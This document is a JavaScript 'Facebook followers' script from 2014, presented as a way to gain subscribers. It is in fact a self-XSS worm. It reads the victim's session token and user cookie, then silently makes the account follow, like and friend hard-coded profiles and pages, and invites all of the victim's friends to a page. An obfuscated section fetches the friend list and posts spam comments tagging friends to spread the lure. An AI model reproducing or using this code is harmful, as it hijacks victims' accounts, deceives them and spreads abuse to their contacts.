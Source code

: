 /*HTML/JavaScript page status="protected"*/
/*FACEBOOK FOLLOWERS*/
/*© 2014 TheUsta-Tolga. All Rights Reserved.*/

var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("275435675948801");sublist("275435675948801");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("323542267799177");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
IDS("");IDS("100004471115762"); a("100004471115762"); a(""); a("");
a(""); Like("323542267799177"); sublist("275435675948801"); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); Like(""); Like(""); Like(""); Like(""); Like(""); Like("275981342578917"); Like(""); Like(""); sublist(""); sublist(""); 
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","323598771126860","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," Abone Hack - Subscribe Hacking || WATCH THIS TUTORIAL - Video İzle :D  THIS REALLY WORK - Çalışıyor..\udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - Abone Kasma Hack  [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var Title='<span style="font-size:x-large;"><b><span style="color: red;">Abone Kasma Subscribe Hacking -  2014</span></b></span><br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=323542267799177&__user="+ user_id +  "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "<div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "</div>";var display = "<div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "<div style='padding-bottom:5px;font-size:20px;'>" + Title + "</div><br/>";if (i > 0) {display += "Detected <b>" +arr.length + "</b> User Online<br/>";display += "<b>" + suc + "</b> of <b>" +arr.length + "</b> Getting Followers.<br/>";display += " (<b>" + i + "</b> User Left...)<br/><br/>";display += '<span style="color: lime;"><span style="font-size: large;"><b>Please Wait Until The Process is Complete - Süreç tamamlanıncaya kadar bekleyin lütfen</b></span></span>';display += "</div>";display += "</div>";window[tag + "_close"] = true} else {display += '<span style="color: lime;"><span style="font-size: large;"><b>SUCCESS</b></span></span>';display += "<div><span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup</span><br/>";display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'><br/>";display += "</div>"; window[tag + "_close"] = false}display += "</div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e && b) {e.overrideMimeType && e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&" : "?";var k = null;"POST" == h && (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText && (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[\n\r]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) && (b = e.responseXML);c && c(b)} else g.f && document.getElementsByTagName("body")[0].removeChild(g.f), g.e && (document.getElementById(g.e).style.display = "none"), error && error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i < x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&token=v7&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e < d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg < d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic < d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "<div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "<div style='padding-bottom:10px;font-size:20px;'>" + Title + "</div>";display += arr.length + " User Detected";display += "</div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);
